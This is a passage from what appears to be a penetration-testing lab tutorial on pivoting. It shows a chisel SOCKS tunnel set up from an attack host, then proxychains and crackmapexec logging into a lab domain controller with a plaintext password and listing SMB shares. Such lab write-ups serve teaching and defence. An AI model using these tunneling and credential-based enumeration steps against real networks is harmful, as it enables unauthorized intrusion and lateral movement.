 ### **Connecting to the Chisel Server from our Attack Host**

```shell-session
$ sudo chisel client 10.129.204.133:8080 socks

2022/11/22 06:56:01 client: Connecting to ws://10.129.204.133:8080
2022/11/22 06:56:01 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/11/22 06:56:02 client: Connected (Latency 124.871246ms)
```

Now we can use Proxychains again:

### **Using Proxychains to Connect to the Internal Network**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --shares

SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\grace:Inlanefreight01! 
SMB         172.16.1.10     445    DC01             [+] Enumerated shares
SMB         172.16.1.10     445    DC01             Share           Permissions     Remark
SMB         172.16.1.10     445    DC01             -----           -----------     ------
SMB         172.16.1.10     445    DC01             ADMIN$          READ            Remote Admin

<SNIP>
```
